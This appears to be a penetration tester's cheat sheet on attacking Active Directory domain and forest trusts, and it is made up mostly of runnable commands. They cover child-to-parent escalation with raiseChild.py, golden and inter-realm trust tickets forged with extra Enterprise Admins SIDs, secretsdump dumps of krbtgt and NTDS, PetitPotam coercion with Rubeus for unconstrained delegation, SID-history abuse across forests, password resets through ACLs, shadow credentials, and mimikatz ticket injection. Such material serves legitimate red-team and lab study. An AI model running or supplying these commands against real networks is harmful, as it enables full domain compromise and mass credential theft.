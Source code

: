 # Trusts

## Enumeration

```bash
# ldeep supports cleartext, pass-the-hash, pass-the-ticket, etc.
ldeep ldap -u "$USER" -p "$PASSWORD" -d "$DOMAIN" -s ldap://"$DC_IP" trusts
# Bloodhound (button map domain trusts)
MATCH p=(n:Domain)-->(m:Domain) RETURN p
```

## Bidirectional trust

When trust is Bidirectional, you can use whatever account you have on one Domain to access LDAP information on the other

{% code overflow="wrap" fullWidth="true" %}
```bash
# When querying another domain
SharpHound.exe -d dev.admin.offshore.com -c all
...
2025-06-14T18:55:55.3206424-04:00|ERROR|Unable to connect to LDAP, verify your credentials
# Use LDAP credentials
.\Sharphound.exe -c All -d dev.ADMIN.OFFSHORE.com --ldapusername ned.flanders_adm --ldappassword [password]
```
{% endcode %}

## Child to parent

{% code overflow="wrap" fullWidth="true" %}
```bash
#Impacket's raiseChild.py script can also be used to conduct the golden ticket technique automatically when SID filtering is disabled (retrieving the SIDs, dumping the trusted domain's krbtgt, forging the ticket, dumping the forest root keys, etc.). It will forge a ticket with the Enterprise Admins extra SID. 
raiseChild.py "child_domain"/"child_domain_admin":"$PASSWORD"

# That was the easiest option with one command, now another one Golden ticket + ExtraSid
https://adsecurity.org/?p=1640
# First dump the krbtgt of the domain we own (dump child ntds and get krbtgt NT hash)
secretsdump.py -just-dc-user domain/krbtgt child.domain.local/user:pass@$CHILD_DC_IP
# Dump child domain SID (Bloodhound also shows this info for child and parent)
lookupsid.py  -domain-sids child.domain.local/user:pass@$CHILD_DC_IP 0
# dump parent domain SID 
lookupsid.py  -domain-sids child.domain.local/user:pass@$PARENT_DC_IP 0
# now create the golden ticket : we add “-519” at the end of the extra-sid (means enterprise admin)
ticketer.py -nthash $krbtgt_NThash \
 -domain-sid $CHILD_DOMAIN_SID \
 -domain child.domain.local \
 -extra-sid $PARENT_DOMAIN_SID-519 \
 goldenuser
# And we use the ticket to dump the parent domain NTDS
export KRB5CCNAME=goldenuser.ccache 
secretsdump.py -k -no-pass -just-dc-ntlm child.domain.local.local/goldenuser@parent.domain.local

# Trust ticket - forge inter-realm TGT
https://adsecurity.org/?p=1588
# Another way to escalate from child to parent is by extracting the trust key and use it to create our trust ticket
# The trust key can be found by targeting the netbios name of the domain on the ntds
secretsdump -just-dc-user 'DOMAIN_NETBIOS_NAME$' child.domain.local/user:pass@$CHILD_DC_IP
# Forge the ticket but this time we will set the spn : krbtgt/parent_domain
ticketer.py -nthash $krbtgt_NThash \
 -domain-sid $CHILD_DOMAIN_SID \
 -domain child.domain.local \
 -extra-sid $PARENT_DOMAIN_SID-519 \
 -spn krbtgt/domain.local trustfakeuser
# use the forged TGT to ask a ST on the parent domain
export KRB5CCNAME=trustfakeuser.ccache   
getST.py -k -no-pass -spn cifs/parent.domain.local domain.local/trustfakeuser@domain.local -debug
# now we can use our service ticket to connect via SMB or dump secrets
export KRB5CCNAME=trustfakeuser@domain.local@cifs....ccache
smbclient.py -k -no-pass trustfakeuser@parent.domain.local

# Unconstrained delegation
```
{% endcode %}

## Forest Trust (Forest to Forest)

## Password reuse

On a real environment this is really accurate. Dump the ntds of the domain you own and try to find the same users on the external forest domains.

## Foreign group and users

{% code overflow="wrap" fullWidth="true" %}
```bash
# See the link between the domains (CAREFUL, THIS QUERY IS A LITTLE BIT TOO HEAVY FOR REAL-WORLD AD)
MATCH p = (a:Domain)-[:Contains*1..]->(x)-->(w)-->(z)<--(y)<-[:Contains*1..]-(b:Domain) where (x:Container or x:OU) and (y:Container or y:OU) and (a.name <>b.name) and (tolower(w.samaccountname) <> "enterprise admins" and tolower(w.samaccountname) <> "enterprise key admins" and tolower(z.samaccountname) <> "enterprise admins" and tolower(z.samaccountname) <> "enterprise key admins")  RETURN p
# Note that bloodhound also have buttons to research foreign groups and users directly in the interface.

# If a group of a forest has MemberOf another group from another forest that has GenericAll over a user, that means any member of the first group can change password of that user
net rpc password $FOREST2_TARGET_USER -U forest1.local/user1%pass1 -S forest2.domain.local
Enter new password  ...: <here we enter P@ssword123>
# And verify
cme smb $FOREST2_DC_IP -u $USER2 -p 'P@ssword123' -d domain2.local
# We can also to that with shadow credentials (but the auto will not work here, we will have to do that with two steps)
certipy shadow add -u forest1user@domain1.local -p 'PASS' -dc-ip $DC_FOREST2_IP -target forest2.domain.local -account 'FOREST2_USER'
certipy auth -pfx forest2user.pfx -username forest2user -domain forest2.local -dc-ip $DC_FOREST2_IP
```
{% endcode %}

## Unconstrained Delegation

{% code overflow="wrap" fullWidth="true" %}
```bash
# Connect to forest1 as administrator and launch Rubeus to wait for a TGT of the other forest (following steps work due to Defender disabled, if not some bypass would be needed)
.\Rubeus.exe monitor /filteruser:COMPUTER2$ /interval:1
# run petitpotam to force a coerce of COMPUTER2 to forest1
petitpotam.py -u user1 -p pass1 -d dc.domain1.local forest1.domain.local forest2.domain.local
# Decode thet ticket and save it to a kirbi file
base64 -d rubeus.b64 > ticket.kirbi
# Convert it to ccache and use it to dcsync forest2
ticketConverter.py ticket.kirbi ticket.ccache 
export KRB5CCNAME=ticket.ccache
secretsdump -k -no-pass -just-dc-ntlm domain2.local/'COMPUTER2$'@forest2.domain.local
```
{% endcode %}

## Mssql Trusted link

The MSSQL trust link is across forest, so it can be used to make forest to forest exploitation.

## Golden ticket with external forest, sid history ftw (forest1 -> forest2)

{% code overflow="wrap" fullWidth="true" %}
```bash
# This attack can be done only because SID history is enabled on the forest2->forest1 trust
# Find both domain sid with lookupsid.py
# extract the krbtgt hash of forest1
secretsdump -just-dc-user 'domain1/krbtgt' domain1.local/user1:pass1@$IP1
# We need a group to target on the extra-sid with an RID > 1000 due to SID filter  (on a real audit exchange groups are usualy a good target)
#     Create the golden ticket for a fake user
ticketer.py -nthash $krbtgt_NThash_forest1 \
 -domain-sid $FOREST1_DOMAIN_SID \
 -domain forest1.domain.local \
 -extra-sid $FOREST2_DOMAIN_SID-$WITH_NUMBER>1000 \
fakeuser
# And use it (secretsdump will work too)
export KRB5CCNAME=goldenticket.ccache
smbexec.py -k -no-pass fakeuser@forest2.domain.local -debug
```
{% endcode %}

## Trust ticket with external forest ( forest1 -> forest2)

{% code overflow="wrap" fullWidth="true" %}
```bash
# just like with the golden ticket we need the sid history enabled to exploit
# Find the domain sid of both forests with lookupsid.py
secretsdump -just-dc-user 'COMPUTER2$' domain1.local/user1:pass@$FOREST2_IP
#     Create the inter-realm tgt ticket
ticketer.py -nthash $krbtgt_NThash_forest1 \
 -domain-sid $FOREST1_DOMAIN_SID \
 -domain forest1.domain.local \
 -extra-sid $FOREST2_DOMAIN_SID-$WITH_NUMBER>1000 \
 -spn krbtgt/domain2.local trustticket
# Ask a service ticket for kingslanding cifs
export KRB5CCNAME=trustticket.ccache
getST.py -k -no-pass -spn cifs/forest2.domain2.local domain2.local/trustticket@domain2.local -debug
#     And enjoy (secretsdump will work too)
export KRB5CCNAME=trustticket....ccache
smbexec.py -k -no-pass trustdragon@kingslanding.sevenkingdoms.local -debug
```
{% endcode %}

## Exploit acl with external trust golden ticket

{% code overflow="wrap" fullWidth="true" %}
```bash
# Exploit ACL of forest2 from forest1 (GenericAll of a group over a user) -> create the golden ticket with mimikatz matching the group with RID > 1000
mimikatz # kerberos::golden /user:guard /domain:domain1.local /sid:$FOREST1_SID /krbtgt:$KRBTGT_HASH_FOREST_1 /sids:FOREST_2_GROUP_SID>1000 /ptt
mimikatz # klist
# powerview to change that user's password
Import-Module .\powerview.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity $USER -AccountPassword $SecPassword -Domain domain2.local
```
{% endcode %}

## Resources

https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d

https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1

https://adsecurity.org/?p=1640

https://adsecurity.org/?p=1588

https://github.com/fortra/impacket/blob/master/examples/raiseChild.py

https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/

https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/
